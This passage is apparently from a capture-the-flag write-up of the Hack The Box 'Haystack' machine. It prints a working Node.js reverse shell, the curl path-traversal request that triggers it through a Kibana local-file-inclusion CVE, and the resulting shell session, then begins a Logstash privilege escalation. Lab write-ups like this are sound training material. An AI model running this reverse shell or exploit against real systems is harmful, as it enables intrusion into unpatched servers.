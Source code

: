 ![](/assets/images/htb-writeup-haystack/es4.png)

There's an LFI CVE in Kibana for that version which let us execute Javascript code.

[https://github.com/mpgn/CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)

I created `/tmp/shell.js` with a standard reverse shell:

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

I then triggered my payload with `curl "http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/shell.js"`

A got a callback soon after:

```
# nc -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.115.
Ncat: Connection from 10.10.10.115:47552.
id
uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.2$ 
```

### Privesc

I saw earlier that logstash is running as root and with user `kibana` I have access to the configuration files in `/etc/logstash/conf.d`:

```
bash-4.2$ ls -l
total 12
-rw-r-----. 1 root kibana 131 jun 20 10:59 filter.conf
-rw-r-----. 1 root kibana 186 jun 24 08:12 input.conf
-rw-r-----. 1 root kibana 109 jun 24 08:12 output.conf
bash-4.2$ cat *
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
input {
	file {
		path => "/opt/kibana/logstash_*"
		start_position => "beginning"
		sincedb_path => "/dev/null"
		stat_interval => "10 second"
		type => "execute"
```